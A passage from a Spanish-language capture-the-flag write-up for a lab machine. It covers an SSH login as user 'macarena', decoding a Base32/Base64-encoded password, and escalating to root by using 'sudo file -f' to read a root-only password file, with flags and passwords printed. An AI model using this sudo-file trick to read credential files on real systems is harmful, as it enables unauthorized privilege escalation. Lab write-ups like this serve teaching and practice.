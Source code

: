 ```shell
ssh -i ~/.ssh/id_rsa macarena@<IP>
```

Hecho eso seremos el usuario `macarena` dentro del `ssh` y leeremos la flag.

> user.txt

```
ef65ad731de0ebabcb371fa3ad4972f1
```

## Escalate Privileges

Si queremos hacer `sudo -l` nos pedira la contarseña, pero no servira la de `samba` que era `donald` tendremos que obtener la contraseña de `macarena` dentro del `ssh`, por lo que haremo lo siguiente.

Si nos vamos a `/home/secret` veremos en su contendio un archivo llamado `hash` que si lo leemos pone lo siguiente.

```
MMZVM522LBFHUWSXJYYWG3KWO5MVQTT2MQZDS6K2IE6T2===
```

Parece estar codificado pero de 2 formas diferentes, primero lo tendremos que decodificar en `Base32` y obtendremos esto:

```
c3VwZXJzZWN1cmVwYXNzd29yZA==
```

Ahora esto lo decodificaremos en `Base64` y obtendremos esto:

```
supersecurepassword
```

Por lo que vemos es la contraseña de `macarena` y si ahora probamos hacer `sudo -l` poniendo la contraseña `supersecurepassword` veremos que funciona y veremos lo siguiente.

```
Matching Defaults entries for macarena on ea4ae144953a:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User macarena may run the following commands on ea4ae144953a:
    (ALL : ALL) /usr/bin/file
```

Podemos ejecutar como `root` el binario `file`, pero si nos vamos a `/opt/` veremos un archivo llamado `password.txt` que solo puede leer `root` por lo que podremos hacer lo siguiente.

```shell
sudo file -f /opt/password.txt
```

Info:

```
root:rooteable2: cannot open `root:rooteable2' (No such file or directory)
```

Veremos que la contraseña de `root` es `rooteable2` y si la probamos, veremos que es verdad.

```shell
su root
```

Ponemos la contraseña obtenida y ya seremos `root`, por lo que leeremos la flag.

> true\_root.txt

```
efb6984b9b0eb57451aca3f93c8ce6b7
```

